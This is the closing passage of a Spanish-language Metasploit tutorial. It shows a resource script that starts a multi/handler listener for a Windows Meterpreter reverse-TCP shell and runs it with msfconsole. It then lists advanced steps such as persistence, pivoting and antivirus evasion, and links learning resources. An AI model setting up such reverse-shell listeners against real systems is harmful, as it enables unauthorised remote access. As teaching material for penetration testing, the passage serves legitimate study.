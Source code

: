 ✅ Puedes guardar comandos en un archivo:

```text
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST TU_IP
set LPORT 4444
run
```

✅ Guardas como **auto.rc**

✅ Ejecutas:

```bash
msfconsole -r auto.rc
```

✔ Automatiza tu ataque.

---

### ✅ 10️ Resumen ultra fácil

✅ Explotación básica:

✔ Un exploit → un payload → acceso.

✅ Explotación avanzada:

✔ Escalada de privilegios

✔ Persistencia

✔ Pivoting

✔ Evasión antivirus

✔ Automatización

---

### ✅ 11️ Enlaces útiles

✅ Metasploit Docs:

👉 [https://docs.metasploit.com](https://docs.metasploit.com)

✅ Exploit-DB:

👉 [https://www.exploit-db.com](https://www.exploit-db.com)

✅ Metasploit Unleashed:

👉 [https://www.offensive-security.com/metasploit-unleashed/](https://www.offensive-security.com/metasploit-unleashed/)

✅ TryHackMe (laboratorios seguros):

👉 [https://tryhackme.com](https://tryhackme.com)

---
